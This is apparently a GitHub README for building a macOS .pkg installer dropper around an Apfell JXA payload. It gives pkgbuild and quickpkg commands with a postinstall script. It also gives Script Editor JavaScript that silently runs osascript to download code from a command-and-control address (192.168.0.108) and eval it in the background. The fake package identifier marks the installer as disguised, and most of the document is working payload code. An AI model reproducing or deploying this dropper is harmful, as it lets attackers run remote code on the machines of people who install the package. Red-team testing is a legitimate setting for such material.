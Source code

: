 # apfell-payload
Making pkg installer payload from Javascript app


## Making the pkg payload
`pkgbuild --root ~/Documents/tech_infosec/apfell-testing/payloads/apfell_pkg_installer_dropper/ --scripts scripts --install-location /tmp --identifier my.fake.pkg my_package.pkg`


### Using this script to make pkg because pkgbuild is fickle
Script: https://github.com/scriptingosx/quickpkg

`python quickpkg --install-location /tmp --postinstall ./Scripts/postinstall.sh apfelljxa.app`


### Creating apfelljxa.app with Script Editor

Create apfelljxa.app with the following Javascript:

`var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("osascript -l JavaScript -e \"eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.0.108:80/api/v1.4/files/download/8e3e832d-ffc1-416a-8d77-f578759e0c69')), $.NSUTF8StringEncoding)));\" &>/dev/null &");`

Exclude Examples folder when building the .pkg
